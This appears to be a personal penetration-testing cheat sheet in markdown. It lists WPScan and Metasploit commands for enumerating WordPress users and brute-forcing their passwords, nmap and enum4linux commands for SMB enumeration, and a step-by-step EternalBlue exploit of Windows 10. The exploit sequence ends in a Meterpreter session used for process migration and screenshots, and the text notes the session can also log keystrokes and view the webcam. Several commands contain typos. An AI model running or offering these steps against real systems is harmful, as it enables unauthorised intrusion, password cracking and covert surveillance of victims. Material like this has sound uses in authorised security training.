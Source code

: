 # WPSCAN - Word Press Enum
```
>wpscan --url {URL} --enumerate u,p,t,vp --api-token {token}
>wpscan --url {URL} --passwords {path to wordlist} --usernames {usernames}
```
Or Metasploit
```
>service postresql start
>msconsole
>use auxillary/scanner/wordpress_login_enum
>set PASS_FILE {path to wordlist}
>set RHOSTS {target IP}
>set RPOST 8080
>set TARGETURI {url}
>set USENAME adminrun
```

# SMB Enumeration
TCP port 445: This is the primary port used by SMB for file sharing and
communication. It handles the majority of SMB traffic, including file access,
printer sharing, and remote administration

UDP ports 137 and 138: These ports are used by SMB for NetBIOS name
resolution and datagram services, similar to NetBIOS

TCP port 139: This port is used by older versions of SMB for session
establishment and file sharing. It is commonly used in conjunction with
NetBIOS over TCP/IP (NBT)
```
>sudo nmap -A –p 445 192.168.18.110
>sudo nmap --script smb-os-discovery.nse 192.168.18.110
>sudo nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 192.168.18.110
This guy -> >enum4linux -a 192.168.18.110
```

# Metasploit and Windows 10 Hacking
1. `>nmap –A –sC 192.168.1.2`
    A flag is used to gather most important information  about the target including OS, versions etc  
    sC flag runs Nmap default scripts against the target
2. `>sudo msfconsole (can search for eternal blue >search eternal)`
3. `>use exploit/windows/smb/ms17_010_psexec (check >options)`
4. `>set RHOSTS 192.168.1.2 (target)`
5. `>set LHOST 192.168.1.4 (my IP)`
6. `>exploit`
The Meterpreter shell is essentially an attack platform that gets injected into the memory of the running process. Thus it avoids detection by HIDS as well as bypassing the limitations of the operating system’s native command shell
The Meterpreter can be used to perform different actions on the machine which includes  
  Taking Screenshot  
  Get a live screen of the target  
  View webcam  
  Record keystrokes  
  Get a shell etc
7. `>migrate 4564 (from >ps, look for cmd.exe)`
8. `>screenshot`
